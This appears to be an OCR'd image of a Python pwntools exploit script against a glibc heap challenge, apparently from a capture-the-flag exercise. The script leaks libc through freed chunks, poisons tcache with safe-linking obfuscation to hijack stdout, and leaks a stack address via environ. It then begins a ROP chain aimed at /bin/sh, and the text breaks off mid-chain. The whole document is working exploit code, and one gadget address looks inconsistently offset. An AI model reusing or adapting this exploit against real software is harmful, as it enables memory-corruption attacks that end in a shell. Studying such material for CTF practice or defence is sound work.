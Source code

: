 ```python

malloc(7,0x100,b'a')
malloc(8,0x100,b'a')

malloc(9,0x10,b'c')

for i in range(7): free(i)
free(7)
view(7)
libc.address = u64(p.recv(6).ljust(8,b'\x00')) - 0x219ce0
environ = libc.sym.environ
binsh = next(libc.search(b'/bin/sh\x00'))
stdout = libc.address + 0x21a780
log.info(f'libc: {hex(libc.address)}')
log.info(f'environ: {hex(environ)}')
log.info(f'binsh: {hex(binsh)}')
log.info(f'stdout: {hex(stdout)}')

free(8)
malloc(0,0x100,b'a')
free(8)
# overwrite fd
payload = b'a'*0x108 + p64(0x111) + p64(obfuscate(stdout,heap_base))
malloc(1,0x130,payload)
malloc(2,0x100,b'nothing')

payload = flat(
        0xfbad1800,
        libc.sym.environ,
        libc.sym.environ,
        libc.sym.environ,
        libc.sym.environ,
        libc.sym.environ+8,
        libc.sym.environ+8,
        libc.sym.environ+8,
        libc.sym.environ+8,
        )

malloc(3,0x100,payload)
environ_stack = u64(p.recv(6).ljust(8,b'\x00'))
saved_rbp = environ_stack - 0x138
saved_rip = environ_stack - 0x130
log.info(f'stack_leak: {hex(environ_stack)}')
log.info(f'saved_rbp: {hex(saved_rbp)}')
log.info(f'saved_rip: {hex(saved_rip)}')



input()
free(1)
free(2)

payload2 = flat(
        b'a'*0x108 + p64(0x111) + p64(obfuscate(saved_rbp,heap_base))
        )
pop_rsi = libc.address + 0x0000000000126101
pop_rdi = 0x000000000002a3e5
pop_rdx_rbx = libc.address + 0x0000000000090529

input()
payload3 = p64(heap_base+0x78)
payload3 += p64(pop_rsi) + p64(0)
payload3 += p64(pop_rdx_rbx) + p64(0)*2
```